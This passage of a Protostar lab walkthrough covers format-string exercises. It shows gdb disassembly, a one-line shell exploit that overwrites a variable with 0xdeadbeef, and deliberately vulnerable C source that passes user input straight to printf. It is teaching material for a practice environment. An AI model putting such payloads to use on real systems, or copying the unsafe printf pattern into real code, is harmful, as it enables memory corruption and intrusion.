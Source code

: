 We take a look at a disassembly of the `vuln()` function.

```shell
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   %ebp
0x080483f5 <vuln+1>:    mov    %esp,%ebp
0x080483f7 <vuln+3>:    sub    $0x68,%esp
0x080483fa <vuln+6>:    movl   $0x0,-0xc(%ebp)
0x08048401 <vuln+13>:   mov    0x8(%ebp),%eax
0x08048404 <vuln+16>:   mov    %eax,0x4(%esp)
0x08048408 <vuln+20>:   lea    -0x4c(%ebp),%eax
0x0804840b <vuln+23>:   mov    %eax,(%esp)
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    -0xc(%ebp),%eax
0x08048416 <vuln+34>:   cmp    $0xdeadbeef,%eax
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   movl   $0x8048510,(%esp)
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
End of assembler dump.
```

The interesting memory locations here are `-0x4c(%ebp)` which belongs to
`buffer` and `-0xc(%ebp)` which belongs to `target`.

One method of exploiting format strings is pretty similar to buffer overflows.
You can write a large string into a buffer with a relatively short format
string. For example, a format string `%128d` results in a 128 byte string.
Using this trick, it is simple to write past `buffer` into `target`. We want to
create a format string that writes 64 characters followed by `0xdeadbeef`,
which results in `target` being overwritten.

```shell
user@protostar:~$ /opt/protostar/bin/format0 $(python -c "print '%64d\xef\xbe\xad\xde'")
you have hit the target correctly :)
```

# format 1

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);

  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/